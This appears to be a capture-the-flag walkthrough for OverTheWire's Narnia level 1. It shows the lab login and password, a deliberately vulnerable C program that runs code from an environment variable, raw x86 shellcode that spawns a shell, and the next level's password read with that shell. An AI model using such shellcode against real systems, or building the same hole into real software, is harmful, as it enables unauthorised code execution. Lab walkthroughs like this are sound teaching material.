 # narnia 1

    # ssh narnia1@narnia.labs.overthewire.org
    password: efeidiedae

    # cat /games/narnia/narnia1.c

    #include <stdio.h>

    int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){    
            printf("Give me something to execute at the env-variable EGG\n");
            exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
    }

    # export EGG=`echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`
    # /games/narnia/narnia1
    # cat /etc/narnia_pass/narnia2
    nairiepecu

